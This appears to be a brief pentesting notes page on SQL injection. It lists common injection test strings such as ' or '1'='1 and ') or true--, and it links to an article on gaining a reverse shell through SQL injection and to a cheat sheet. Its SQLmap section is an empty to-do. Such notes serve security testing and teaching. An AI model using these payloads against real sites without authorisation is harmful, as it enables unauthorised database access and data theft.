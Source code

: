 # SQL injection

## Basic techniques
Stick `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:
```
' or '1'='1
```
Other tests:
```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
Rather than rewriting a guide on enumerating a database using SQL injection, I'm just going to provide a link: [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)

## SQLmap
To-do

## Further reading
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
